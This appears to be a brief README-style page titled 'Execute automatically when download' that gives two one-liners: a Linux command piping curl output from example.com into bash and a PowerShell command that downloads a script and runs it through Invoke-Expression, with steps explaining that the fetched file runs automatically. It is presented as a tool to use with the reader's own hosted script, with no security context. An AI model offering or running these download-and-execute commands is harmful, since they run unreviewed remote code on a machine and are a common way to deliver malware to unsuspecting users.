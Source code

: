 
# Execute automatically when download

Linux:-

`curl -s http://example.com/myscript.sh | bash`


Windows:-

`(New-Object System.Net.WebClient).DownloadString('http://example.com/myscript.ps1') | Invoke-Expression`

## Note :-

Replacehttp://example.com/myscript.ps1 with your hosted script link

### How This Commands Run

##### Step1: 

This will first Download the file Given in the link.

##### Step2:

Now, Downloaded file will run Automatically.

